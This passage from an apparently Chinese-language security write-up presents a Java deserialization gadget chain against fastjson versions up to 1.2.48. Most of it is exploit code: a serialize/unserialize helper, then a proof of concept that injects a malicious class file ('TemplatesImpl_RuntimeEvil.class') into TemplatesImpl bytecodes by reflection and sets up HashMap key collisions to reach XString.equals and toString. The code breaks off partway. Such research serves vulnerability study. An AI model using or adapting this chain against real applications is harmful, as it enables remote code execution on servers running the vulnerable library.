 ```java
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```



### 链子2

```java
HashMap.readObject() -> XString.equals() -> toString()
```

这条链子需要进行一个碰撞才能进入equals，具体原理如下：

https://godownio.github.io/2024/09/26/rome-lian/#HashSet-or-HashMap%E9%93%BE

```java
package org.exploit.third.fastjson.nativeDeser;

import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.xpath.objects.XString;

import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

//fastjson <= 1.2.48 原生反序列化
//HashMap.readObject() -> XString.equals() -> toString()
public class HashMap_1_2_48 {
    public static void main(String[] args) throws Exception{
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("templateClass",templatesClass);
        XString xString = new XString("godown!");
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap1.put("zZ", jsonObject);
        hashMap1.put("yy", xString);
```